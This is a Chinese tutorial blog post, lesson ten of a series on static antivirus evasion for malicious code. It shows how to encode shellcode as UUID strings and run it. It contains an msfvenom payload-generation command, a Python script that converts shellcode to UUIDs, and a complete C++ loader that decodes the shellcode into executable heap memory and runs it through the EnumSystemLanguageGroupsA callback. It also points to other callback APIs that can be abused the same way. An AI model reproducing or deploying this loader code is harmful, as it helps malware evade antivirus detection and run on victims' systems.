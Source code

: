 ```yaml
---
date: "2021-02-08T00:00:00Z"
description: 本节课，使用UUID的方式存储Shellcode，再介绍一些CALL BACK函数的特性来加载Shellcode。
title: 静态恶意代码逃逸（第十课）
url: /archivers/2021-02-08/1
---
```


代码将会上传至Github，方便读者下载研究 : https://github.com/Rvn0xsy/BadCode

## 0x01 UUID

通用唯一标识符（universally unique identifier, UUID）是一个128位的用于在计算机系统中以识别信息的数目。在Windows中也有使用GUID来标识唯一对象。 — 来源：[维基百科](https://en.wikipedia.org/wiki/Universally_unique_identifier)

关于Windows中的GUID也等同于UUID，先看一下结构：

```c++
typedef struct _GUID {
  unsigned long  Data1; // 4字节
  unsigned short Data2; // 2字节
  unsigned short Data3; // 2字节
  unsigned char  Data4[8]; // 8字节
} GUID;
```

总和一共16字节，16*8 = 128位。


## 0x02 与UUID相关的Windows API


```c++
RPC_STATUS UuidFromString(
  RPC_CSTR StringUuid,
  UUID     *Uuid
);
```

功能：将字符串UUID转换为UUID结构。

```c++
RPC_STATUS UuidCreate(
  UUID *Uuid
);
```

功能：创建UUID结构。

```c++
int UuidEqual(
  UUID       *Uuid1,
  UUID       *Uuid2,
  RPC_STATUS *Status
);
```

功能：判断两个UUID是否相等。

通过URL查看：https://docs.microsoft.com/en-us/windows/win32/rpc/rpcdce/ns-rpcdce-uuid

UUID 代表了 -> `typedef GUID UUID;`

## 0x03 UUID 测试

### 生成Shellcode

```
./msfvenom -p windows/exec CMD=calc.exe -b '\xfc\xe8' -f raw -o /tmp/shellcode.bin
```

### Bin2UUID

生成脚本：

```py
from uuid import UUID
import os
import sys

# Usage: python3 binToUUIDs.py shellcode.bin [--print]

print("""
  ____  _    _______    _    _ _    _ _____ _____       
 |  _ \(_)  |__   __|  | |  | | |  | |_   _|  __ \      
 | |_) |_ _ __ | | ___ | |  | | |  | | | | | |  | |___  
 |  _ <| | '_ \| |/ _ \| |  | | |  | | | | | |  | / __| 
 | |_) | | | | | | (_) | |__| | |__| |_| |_| |__| \__ \ 
 |____/|_|_| |_|_|\___/ \____/ \____/|_____|_____/|___/
\n""")

with open(sys.argv[1], "rb") as f:
    bin = f.read()

if len(sys.argv) > 2 and sys.argv[2] == "--print":
    outputMapping = True
else:
    outputMapping = False

offset = 0

print("Length of shellcode: {} bytes\n".format(len(bin)))

out = ""

while(offset < len(bin)):
    countOfBytesToConvert = len(bin[offset:])
    if countOfBytesToConvert < 16:
        ZerosToAdd = 16 - countOfBytesToConvert
        byteString = bin[offset:] + (b'\x00'* ZerosToAdd)
        uuid = UUID(bytes_le=byteString)
    else:
        byteString = bin[offset:offset+16]
        uuid = UUID(bytes_le=byteString)
    offset+=16

    out += "\"{}\",\n".format(uuid)
    
    if outputMapping:
        print("{} -> {}".format(byteString, uuid))

with open(sys.argv[1] + "UUIDs", "w") as f:
    f.write(out)

print("Outputted to: {}".format(sys.argv[1] + "UUIDs"))
```

![2021-02-08-20-41-08](../../../static/images/ae1d7ed2-4f5f-11ec-be52-00d861bf4abb.png)

### 生成测试样本

```c++
#include <Windows.h>
#include <rpc.h>
#pragma comment(lib,"Rpcrt4.lib")

const char * buf[] = {
	"4baf01bd-dbdd-d9de-7424-f45a33c9b131",
	"83136a31-04c2-6a03-0e4d-be21f81341da",
	"3fcb73f8-b3c9-34af-7904-bb1975efe989",
	"bd259d0e-28a7-f010-3800-6093ba5bb573",
	"72c89383-cec4-2621-9d85-94d7aad02453",
	"802cf5e0-f4b0-171d-cbae-bd9918dbf781",
	"394ee67d-9cb5-eb50-845d-fed229acfe13",
	"6a754f8d-f2ee-a98e-8d28-1a2a35babc96",
	"5c5a6fc4-c4ca-3a28-cedb-fd30ea500097",
	"3327227b-f020-6246-8c57-76746f07d2fe",
	"5d6f5c9d-a3cb-dbfd-b9a4-fde3edcccc68",
	"bad08a62-64c7-e79b-61ed-4272307075a8",
	"59f68d76-6a06-2be6-0336-a0c0792745e7",
	"844c482e-dab1-650c-545b-b67900000000"
};


int main(int argc, char* argv[]) {

	int dwNum = sizeof(buf) / sizeof(buf[0]);

	HANDLE hMemory = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE | HEAP_ZERO_MEMORY, 0, 0);
	if (hMemory == NULL) {
		return -1;
	}
	PVOID pMemory = HeapAlloc(hMemory, 0, 1024);
	
	DWORD_PTR CodePtr = (DWORD_PTR)pMemory;

	for (size_t i = 0; i < dwNum; i++)
	{
		if (CodePtr == NULL) {
			break;
		}
		RPC_STATUS	status = UuidFromStringA(RPC_CSTR(buf[i]), (UUID*)CodePtr);
		if (status != RPC_S_OK) {

			return -1;
		}
		CodePtr += 16;
	}

	if (pMemory == NULL) {
		return -1;
	}
	if (EnumSystemLanguageGroupsA((LANGUAGEGROUP_ENUMPROCA)pMemory, LGRPID_INSTALLED, NULL) == FALSE) {
		// 加载成功
		return 0;
	}
	return 0;
}
```


![2021-02-08-20-52-53](../../../static/images/ae5cbe3a-4f5f-11ec-b376-00d861bf4abb.png)

## 0x04 Windows CALL BACK函数

CALL BACK意为回调，是定义一个函数，由系统某个事件或用户的动作自动触发的函数，因此调用者不是用户。

通过MSDN直接搜索Callback/Proc关键字就能发现一些回调函数：

![2021-02-08-20-59-11](../../../static/images/ae914808-4f5f-11ec-bce4-00d861bf4abb.png)

例如：

```c++

HINTERNET hOpen;                       // Root HINTERNET handle
INTERNET_STATUS_CALLBACK iscCallback;  // Holds the callback function

// Create the root HINTERNET handle.
hOpen = InternetOpen( TEXT("Test Application"),
                      INTERNET_OPEN_TYPE_PRECONFIG,
                      NULL, NULL, 0);

// Set the status callback function.
iscCallback = InternetSetStatusCallback( hOpen, (INTERNET_STATUS_CALLBACK)CallMaster );

void CALLBACK CallMaster( HINTERNET,
    DWORD_PTR,
    DWORD,
    LPVOID,
    DWORD
);

```

如果CallMaster指向的是一块可执行属性的内存，那么就可以加载Shellcode。

这篇文章中介绍了如何发现其他带有回调的[Windows API](http://ropgadget.com/posts/abusing_win_functions.html)。


## 参考

- http://www.cn0sec.cn/index.php/archives/337/
- http://ropgadget.com/posts/abusing_win_functions.html